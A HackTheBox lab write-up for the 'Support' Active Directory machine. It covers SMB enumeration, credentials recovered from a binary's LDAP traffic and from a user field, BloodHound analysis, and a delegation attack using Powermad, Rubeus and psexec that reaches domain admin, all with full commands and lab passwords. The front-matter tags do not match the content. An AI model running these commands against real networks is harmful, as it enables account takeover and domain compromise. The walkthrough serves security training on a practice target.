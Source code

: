 ```yaml
---
layout: post
title: Support (HackTheBox)
date: 2025-04-19
categories: [CTF, HackTheBox]
tags: [SSTI, Sudo]
---
```


![Support Image](https://c00lrabbit.github.io/assets/Images/Support/Support.png)

### Nmap Results


```bash

53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-04-11 15:21:19Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49676/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49680/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49704/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49742/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
```

- From the ports 53, 88, 139, 445 we can say that this is a Active Directory Machine.

# Enumeration

### Always check for SMB in AD

## SMB (139, 445)

```
smbclient -L //10.10.11.174
Password for [WORKGROUP\rokial]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        support-tools   Disk      support staff tools
        SYSVOL          Disk      Logon server share 


smbclient //10.10.11.174/support-tools
Password for [WORKGROUP\rokial]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Wed Jul 20 22:31:06 2022
  ..                                  D        0  Sat May 28 16:48:25 2022
  7-ZipPortable_21.07.paf.exe         A  2880728  Sat May 28 16:49:19 2022
  npp.8.4.1.portable.x64.zip          A  5439245  Sat May 28 16:49:55 2022
  putty.exe                           A  1273576  Sat May 28 16:50:06 2022
  SysinternalsSuite.zip               A 48102161  Sat May 28 16:49:31 2022
  UserInfo.exe.zip                    A   277499  Wed Jul 20 22:31:07 2022
  windirstat1_1_2_setup.exe           A    79171  Sat May 28 16:50:17 2022
  WiresharkPortable64_3.6.5.paf.exe      A 44398000  Sat May 28 16:49:43 2022

OR 

nxc smb 10.10.11.174 -u 'something' -p '' --shares
```

### Analyzing the `UserInfo.exe.zip`
- Run the userinfo.exe using Powershell built into kali and we found the exe tries to connect with ldap we found that using wireshark

```
we can run this in kali in powershell

./UserInfo.exe -v find -first 'test'
```
![Wireshark LDAP](https://c00lrabbit.github.io/assets/Images/Support/Wireshark-LDAP.png)

- Using this creds we can try spraying them in the domain to check we have access.

```
 nxc smb 10.10.11.174 -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' --shares
```
![Ldap Creds Check](https://c00lrabbit.github.io/assets/Images/Support/Ldap-NXC.png)
- Found these are valid creds.

## Domain Enumeration
- Back in the old days we have to run a tool named SharpHound.ps1 on the target system to feed the BloodHound to visualize the domain structute. But now the community made it simple by making bloodhound-python.
- Which is similar like sharphound but we can run it on the attacker side.

```bash
bloodhound-python -d support.htb -c All -ns 10.10.11.174 --zip -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
```

![BloodHound result](https://c00lrabbit.github.io/assets/Images/Support/BloodHound-Result.png)
- Found that Shared Support Account has generic all over `DC.SUPPORT.HTB`

#### Note: Default AD groups ends with id less then 1000 non default will have id greater than 1000
# LDAP (389) 
#### We can use ldap search for checking field in the domain Because bloodhound checks for Description.

```bash

ldapsearch -h support.htb -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b 'dc=support, dc=htb' > ldap.out

```

![ldapsearch Result](https://c00lrabbit.github.io/assets/Images/Support/Ldapsearch-result.png)

```
support:Ironside47pleasure40Watchful
```
- Found another credentials for the user support.

### It is common to have password in info field

# Finding 

#### Found support user is the member of Shared support Account and that group has generic all privilege over the DC

## Evil-winrm
- Using these creds we can winrm into the machine

```bash
evil-winrm -i <Target-ip> -u support -p 'Ironside47pleasure40Watchful'
```

### Downloading Dependencies to carry out the attack which bloodhound Suggested
```
powermad.ps1
powerview.ps1
Rubeus.exe
```

## To find how many machine account a domain user can create

```powershell
. .\Powerview.ps1

Get-DomainObject -Identity "DC=Support, DC=HTB" | select ms-ds-machineaccountquota
```

![Machineqoute](https://c00lrabbit.github.io/assets/Images/Support/machineqoute.png)
- Since we have access to create machine account we can carry out this attack.

### To create a Machine account

```powershell
. .\Powermad.ps1
New-MachineAccount -MachineAccount FakePc -Password $(ConvertTo-SecureString 'Password@123' -AsPlainText -Force)
```

```powershell
$ComputerSid = Get-DomainComputer FakePc -Properties objectsid | Select -Expand objectsid

To get Sid

$ComputerSid
S-1-5-21-1677581083-3380853377-188903654-5607
```

## Follow the steps in the bloodhound

![BloodhoundAbuse](https://c00lrabbit.github.io/assets/Images/Support/BloodHound abuse.png)

```powershell
./Rubeus.exe s4u /user:attackersys$ /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:administrator /msdsspn:cifs/DC.SUPPORT.HTB /ptt
```

![Rubeus](https://c00lrabbit.github.io/assets/Images/Support/Rubeus.png)

- Copy this base64 ticket and convert that

```bash
base64 -d ticket.b64 > ticket.kirbi
# This command will convert the base64 Ticket.
```

Convert the kirbi to ccache which we can use to access machines.
- Here we are using a tool named `ticketConverter.py` from Impacket to convert the ticket.

```bash
python3 ticketConverter.py ticket.kirib ticket.ccache
export KRB5CCNAME=ticket.ccache # Exporting the ticket to the Environment Variable so we don't have to run everytime we access the machine
```

After that we can psexc to the DC
```bash
psexec.py -k -no-pass support.htb/administrator@dc.support.htb

# If you have issue with clock skew time we can sync the time with DC using the faketime command
faketime "$(ntpdate -q 10.10.11.174 | cut -d ' ' -f 1,2 )" \psexec.py -k -no-pass support.htb/administrator@dc.support.htb
```

![Psexec](https://c00lrabbit.github.io/assets/Images/Support/psexec.png)


